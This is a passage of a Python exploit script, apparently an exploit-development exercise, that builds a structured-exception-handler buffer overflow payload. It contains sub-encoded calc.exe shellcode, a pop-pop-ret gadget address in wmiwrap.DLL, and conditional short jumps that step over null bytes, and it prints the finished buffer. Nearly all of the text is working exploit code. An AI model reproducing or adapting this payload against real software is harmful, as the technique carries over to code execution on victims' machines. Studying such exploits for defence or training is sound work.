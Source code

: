 ```console
alignment += "\x5c" 			# pop esp; (puts the value of eax back into esp)

# calc.exe shellcode, via the sub method. Values needed are as followed. Reference the calc.exe shellcode line for line numbers.
# 1st line = 2C552D14 01552D14 01562E16
shellcode = zero
shellcode += "\x2d\x14\x2d\x55\x2c" 	# sub eax, 0x2C552D14
shellcode += "\x2d\x14\x2d\x55\x01" 	# sub eax, 0x01562D14
shellcode += "\x2d\x16\x2e\x56\x01" 	# sub eax, 0x01562E16
shellcode += "\x50" 		    	# push eax; (get the value on the stack). We will do this for all remaining steps like this one.

# 2nd line = 24121729 24121739 2414194A
shellcode += zero
shellcode += "\x2d\x29\x17\x12\x24" 	# sub eax, 0x24121729
shellcode += "\x2d\x39\x17\x12\x24"     # sub eax, 0x24121739
shellcode += "\x2d\x4a\x19\x14\x24"     # sub eax, 0x2414194A (was 40 at the end, but a miscalc happened. Changed to 4A)
shellcode += "\x50" 			# push eax

# 3rd line = 34313635 34313434 34313434
shellcode += zero
shellcode += "\x2d\x35\x36\x31\x34" 	# sub eax, 0x34313635
shellcode += "\x2d\x34\x34\x31\x34" 	# sub eax, 0x34313434
shellcode += "\x2d\x34\x34\x31\x34" 	# sub eax, 0x34313434
shellcode += "\x50" 			# push eax

# 4th line = 323A1245 323A1245 333A1245
shellcode += zero
shellcode += "\x2d\x45\x12\x3a\x32" 	# sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x32" 	# sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x33" 	# sub eax, 0x333A1245
shellcode += "\x50" 		    	# push eax

# All together now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += alignment
payload += shellcode
payload += "\x43" * (5000-len(payload))


print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
